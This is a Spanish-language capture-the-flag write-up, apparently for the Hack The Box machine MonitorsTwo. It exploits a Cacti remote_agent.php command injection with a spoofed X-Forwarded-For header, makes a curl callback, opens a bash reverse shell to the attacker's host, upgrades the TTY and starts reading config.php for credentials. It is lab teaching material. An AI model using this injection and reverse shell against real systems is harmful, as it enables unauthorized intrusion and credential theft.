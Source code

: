 Si intentamos inyectar el comando `ping` en el parámetro `poller_id` no funcionará, pero si probamos con `sleep` o con `curl` si que funcionará, esto va dando indicios de que seguramente este Cacti está dentro de un contenedor Docker.

```bash
❯ curl -s -H "X-Forwarded-For: 127.0.0.1" "http://10.10.11.211/remote_agent.php?action=polldata&poller_id=;curl%20http://10.10.14.184:8000/asd&host_id=1&local_data_ids[]=6"
```
```bash
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.211 - - [29/Aug/2023 18:27:38] code 404, message File not found
10.10.11.211 - - [29/Aug/2023 18:27:38] "GET /asd HTTP/1.1" 404 -
```

Probando a lanzarnos una reverse shell con bash, funciona

```bash
❯ curl -s -H "X-Forwarded-For: 127.0.0.1" "http://10.10.11.211/remote_agent.php?action=polldata&poller_id=;bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/10.10.14.184/443%200>%261'&host_id=1&local_data_ids[]=6"
```

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.211 34704
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$ script /dev/null -c bash # Inicia un nuevo proceso
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@50bca5e748b0:/var/www/html$ ^Z # CTRL + Z
[1]  + 10112 suspended  nc -lvnp 443
❯ stty raw -echo; fg # Pasa ciertos controles de la terminal
[1]  + 10112 continued  nc -lvnp 443
                                    reset xterm # Reinicia la terminal
www-data@50bca5e748b0:/var/www/html$ export TERM=xterm-256color # Establece el tipo de terminal
www-data@50bca5e748b0:/var/www/html$ stty rows 36 columns 149 # Ajusta filas y columnas
www-data@50bca5e748b0:/var/www/html$ source /etc/skel/.bashrc # Carga un .bashrc típico, dándonos una consola colorida
```

### marcus - monitorstwo

Buscando por cosas interesantes en el contenedor, encontramos unas credenciales en el archivo `/var/www/html/include/config.php`

```bash
www-data@50bca5e748b0:/var/www/html/include$ cat config.php
<?php
/*
 +-------------------------------------------------------------------------+
 | Copyright (C) 2004-2020 The Cacti Group                                 |
 |                                                                         |
 | This program is free software; you can redistribute it and/or           |
 | modify it under the terms of the GNU General Public License             |
 | as published by the Free Software Foundation; either version 2          |
 | of the License, or (at your option) any later version.                  |
 |                                                                         |
 | This program is distributed in the hope that it will be useful,         |
 | but WITHOUT ANY WARRANTY; without even the implied warranty of          |
 | MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the           |
 | GNU General Public License for more details.                            |
 +-------------------------------------------------------------------------+
 | Cacti: The Complete RRDtool-based Graphing Solution                     |
 +-------------------------------------------------------------------------+
 | This code is designed, written, and maintained by the Cacti Group. See  |
```